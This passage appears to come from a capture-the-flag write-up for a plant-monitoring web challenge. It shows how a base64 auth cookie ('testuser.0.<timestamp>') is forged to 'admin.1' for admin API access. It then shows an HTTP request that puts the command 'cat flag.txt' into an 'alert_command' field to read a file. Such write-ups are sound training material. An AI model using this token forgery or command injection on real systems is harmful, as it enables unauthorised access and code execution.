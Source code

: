 ```
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.ZyaENQ.GHM7nJw9Sk3doUEeOrRuWj4JibI; auth=dGVzdHVzZXIuMC4xNzMwNTgzODIw
```

We can also see there is API documentation but some looks like its for admin.

![alt text](images/plantopiaa.png)


Accessing these endpoints require us to use an `Authorization` header using the `auth` cookie set during our login. We can set `Authorization: dGVzdHVzZXIuMC4xNzMwNTgzODIw` to access the API. which is just base64 encoded from `testuser.0.1730583820`

Since most of these functionality require admin privileges. I played around and just changed the value from `testuser` to `admin` and from `0` to `1`. and I successfully accessed the `/api/admin/logs`

![alt text](images/logs.png)

From there its just playing around with the admin functionalities. We can see that we can change the commands in the `/api/plants/1/edit`


```http
POST /api/plants/1/edit HTTP/1.1
Host: challenge.ctf.games:32308
Authorization: YWRtaW4uMS4xNzMwNTgzODIw
Content-Length: 139
Content-Type: application/json

{
  "description": "A beautiful sunflower.",
  "sunlight_level": 80,
  "watering_threshold": 50,
  "alert_command": "cat flag.txt"
}

```
